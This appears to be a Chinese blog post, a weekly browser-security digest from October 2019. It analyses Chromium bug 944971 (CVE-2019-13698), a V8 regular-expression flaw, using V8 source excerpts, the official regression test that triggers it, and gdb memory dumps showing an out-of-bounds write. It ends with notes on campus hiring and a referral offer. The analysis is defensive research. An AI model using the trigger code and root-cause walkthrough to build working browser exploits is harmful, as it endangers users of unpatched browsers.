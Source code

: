 ```yaml
---
layout: post
title:  "浏览器安全周报 2019.10.21 - 2019.10.25"
date:   2019-10-25 18:00:00 +520
tags: Browser_Security
---
```


有段时间没有更新浏览器了

JS Fuzz，有点意思，我还没有看源码
- https://github.com/fuzzitdev/jsfuzz

最近分析了CRBUG-944971，对应的CVE编号是CVE-2019-13698，正则模块的漏洞
- https://bugs.chromium.org/p/chromium/issues/detail?id=944971

触发漏洞的原理很简单，根据报告者的Exp去找漏洞的触发路径很有意思

首先正则的Replace函数认为传入的是未经修改的对象，也就是说没有被重新定义过的正则对象，它会调用`ToString()`，这是一个可以在上层进行定义的函数
```
V8_WARN_UNUSED_RESULT MaybeHandle<String> RegExpReplace(Isolate* isolate, Handle<JSRegExp> regexp, Handle<String> string, Handle<Object> replace_obj) {
    // Functional fast-paths are dispatched directly by replace builtin.
    DCHECK(RegExpUtils::IsUnmodifiedRegExp(isolate, regexp));
    DCHECK(!replace_obj->IsCallable());

    Factory* factory = isolate->factory();

    const int flags = regexp->GetFlags();
    const bool global = (flags & JSRegExp::kGlobal) != 0;
    const bool sticky = (flags & JSRegExp::kSticky) != 0;

    Handle<String> replace;
    ASSIGN_RETURN_ON_EXCEPTION(isolate, replace, Object::ToString(isolate, replace_obj), String); <== 1
    replace = String::Flatten(isolate, replace);
```

官方给的回归测试文件可以看到就是在`toString()`里进行操作
```
let re = /x/y;
let cnt = 0;
let str = re[Symbol.replace]("x", {
    toString: () => {
        cnt++;
        if (cnt == 2) {
            re.lastIndex = {valueOf: () => {
                re.x = 42;
                return 0;
            }};
        }
        return 'y$';
    }
});
assertEquals("y$", str);
```

具体这个漏洞的利用细节我会单独写一篇文章分析，周报里简单讲讲，首先我们使用下面的代码测试一个特性
```
var pattern = new RegExp("AA","g");
%DebugPrint(pattern);

pattern.__defineGetter__('x', ()=>2);
%DebugPrint(pattern);

pattern.__defineGetter__('x', ()=>2);
%DebugPrint(pattern);

while(true);
```


`%DebugPrint`是V8调试版本下一个用于打印对象的接口，输出的数据我简化一下，第二次`__defineGetter__`执行完后，可以看到`lastIndex`被移动到`properties`存储，同时对象长度减少8字节
```
DebugPrint: 0x1fb102d4dcc1: [JSRegExp]
 - map: 0x1d23bf341359 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - properties: 0x1878b9400c71 <FixedArray[0]> {
    #lastIndex: 0 (data field 0)
 }
0x1d23bf341359: [Map]
 - type: JS_REGEXP_TYPE
 - instance size: 56

------------------------------------------------------------

DebugPrint: 0x1fb102d4dcc1: [JSRegExp]
 - map: 0x1d23bf34a9f9 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - properties: 0x1878b9400c71 <FixedArray[0]> {
    #lastIndex: 0 (data field 0)
    #x: 0x2d807e95f4c1 <AccessorPair> (const accessor descriptor)
 }
0x1d23bf34a9f9: [Map]
 - type: JS_REGEXP_TYPE
 - instance size: 56

------------------------------------------------------------

DebugPrint: 0x1fb102d4dcc1: [JSRegExp]
 - map: 0x1d23bf34aa49 <Map(HOLEY_ELEMENTS)> [DictionaryProperties]
 - properties: 0x1fb102d4f631 <NameDictionary[29]> {
   #lastIndex: 0 (data, dict_index: 1, attrs: [W__])
   #x: 0x2d807e95f4d9 <AccessorPair> (accessor, dict_index: 2, attrs: [WEC])
 }
0x1d23bf34aa49: [Map]
 - type: JS_REGEXP_TYPE
 - instance size: 48
```

记住上面的这点，我们来看内存角度
```
var pattern = new RegExp("AA","g");
gdb-peda$ x/20gx 0x99f7870dcd8
0x99f7870dcd8:	0x000030b004981359	0x00003df557b80c71
0x99f7870dce8:	0x00003df557b80c71	0x0000099f7870f561
0x99f7870dcf8:	0x000000a31509f099	0x0000000100000000
0x99f7870dd08:	0x0000000000000000	0x00003df557b808a1

以下因为重新运行导致内存地址变化，问题不大，两次执行过后可以看到核心的地方出现了，注意箭头指向的地方，原先是`0`，现在变成了一个地址
pattern.__defineGetter__('x', ()=>2);
pattern.__defineGetter__('x', ()=>2);
gdb-peda$ x/20gx 0x30e12f60dce0
0x30e12f60dce0:	0x0000365cc160aa49	0x000030e12f60f651
0x30e12f60dcf0:	0x00003cb956540c71	0x000030e12f60f569
0x30e12f60dd00:	0x00000d083935f099	0x0000000100000000
0x30e12f60dd10:	0x00003cb956540321 <==	0x00003cb9565408a1
0x30e12f60dd20:	0x0000018300000000	0x0000000100000000
0x30e12f60dd30:	0x0000000000000000	0x0000008000000000
0x30e12f60dd40:	0x00003cb9565404d1	0x00003cb9565404d1
0x30e12f60dd50:	0x00003cb9565404d1	0x00003cb9565404d1
0x30e12f60dd60:	0x00003cb9565404d1	0x00003cb9565404d1
0x30e12f60dd70:	0x00003cb9565404d1	0x00003cb9565404d1
```

我们通过`job`命令查看，它是一个对象的Map，也就是说，这里是一个新的对象内存空间
```
gdb-peda$ job 0x00003cb956540321
0x3cb956540321: [Map]
 - type: FILLER_TYPE
 - instance size: 8
 - elements kind: HOLEY_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - stable_map
 - back pointer: 0x3cb9565404d1 <undefined>
 - prototype_validity cell: 0
 - instance descriptors (own) #0: 0x3cb956540259 <DescriptorArray[0]>
 - layout descriptor: (nil)
 - prototype: 0x3cb9565401d9 <null>
 - constructor: 0x3cb9565401d9 <null>
 - dependent code: 0x3cb9565402c1 <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
 - construction counter: 0
```

这个特性有什么用呢？

我们再回到`Replace`函数里，它竟然可以直接设置这个`lastIndex`位，也就是说，在`Replace`里处理的时候，可以通过`toString()`修改掉这个值，而修改的时候，原先的`lastIndex`已经变成了另一个对象的`Map`，这就造成了一个越界写操作，`sticky`对应的`y`，比如`"AA/y"`
```
if (match_indices_obj->IsNull(isolate)) {
    if (sticky) regexp->set_last_index(Smi::kZero, SKIP_WRITE_BARRIER);
        return string;
}

auto match_indices = Handle<RegExpMatchInfo>::cast(match_indices_obj);

const int start_index = match_indices->Capture(0);
const int end_index = match_indices->Capture(1);

if (sticky) {
    regexp->set_last_index(Smi::FromInt(end_index), SKIP_WRITE_BARRIER);
}
```

参加了今年的数字校招面试工作，一共是四批，第一批是内推，剩下三批是大流程，内推的好处就是万一挂了可以参加大流程，完全不会有影响，但是大流程只能参加一次

整个部门的候选人简历一眼刷下来几乎全是硕士学历，本科生屈指可数，全公司的比例情况我不清楚，没有看到表格

感慨还好毕业的早，不然今年可能真的找不到工作了

记得17年的春招，我在寝室里参加了数字的春招视频面试，大早上有个人打电话给我问我能不能参加面试，然后我就早早地在那里准备了，然后时间一到就有面试官Call我，一早上三面聊得很快，一面工程师，二面leader，三面HR

另外，今年的秋招差不多结束了，春招的时候大家投简历请踊跃一点，不要太羞涩了，有坑，缺人！需要内推360的后台联系我啊！！！！！！